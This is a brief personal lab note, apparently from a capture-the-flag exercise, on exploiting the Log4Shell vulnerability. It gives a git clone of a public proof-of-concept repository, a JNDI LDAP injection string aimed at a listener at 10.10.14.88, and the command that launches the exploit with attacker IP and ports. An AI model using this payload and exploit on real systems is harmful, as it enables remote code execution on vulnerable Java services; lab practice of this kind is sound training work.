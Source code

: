 `sudo git clone https://github.com/kozmer/log4j-shell-poc`

https://github.com/o7-Fire/Log4Shell
`${jndi:ldap://10.10.14.88:2314/param1=value1}`

thats it but this shit needs specific java

`sudo python3 poc.py --userip 10.10.14.88 --webport 80 --lport 2314`
![[Screenshots/Pasted image 20240612232255.png]]
